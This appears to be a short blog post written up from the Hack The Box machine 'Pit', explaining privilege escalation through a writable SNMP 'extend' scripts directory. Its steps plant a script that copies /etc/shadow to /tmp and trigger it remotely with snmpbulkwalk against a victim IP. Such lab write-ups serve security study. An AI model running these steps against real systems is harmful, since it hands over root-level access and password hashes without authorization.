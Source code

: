 ```yaml
---
layout: post
title: SNMP Extended Script
description: SNMP Extended Script
summary: SNMP Extended Script
tags: [snmp,privesc]
minute: 1
---
```

## Overview
Attacker can do privesc if it can gain access to SNMP extensions.

## Environment Setup
* SNMP extension enabled using custom script and low privileged user has write access to custom scripts directory.

```bash
[root@pit ~]# cat /etc/snmp/snmpd.conf | grep extend
extend monitoring /usr/bin/monitor
[root@pit ~]# 
[root@pit ~]# cat /usr/bin/monitor 
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
[root@pit ~]# 
[root@pit ~]# getfacl /usr/local/monitoring/
getfacl: Removing leading '/' from absolute path names
# file: usr/local/monitoring/
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx
mask::rwx
other::---

[root@pit ~]# 
```

## Steps
* Create malicious script

```bash
echo -n '#!/bin/bash\ncat /etc/shadow > /tmp/shadow.txt' > /usr/local/monitoring/check_evil.sh
```

* Trigger SNMP extension

```bash
# 10.10.10.241 - victim IP
snmpbulkwalk -On -r1 -v2c -c public 10.10.10.241 1
```

## Reference
* HTB Pit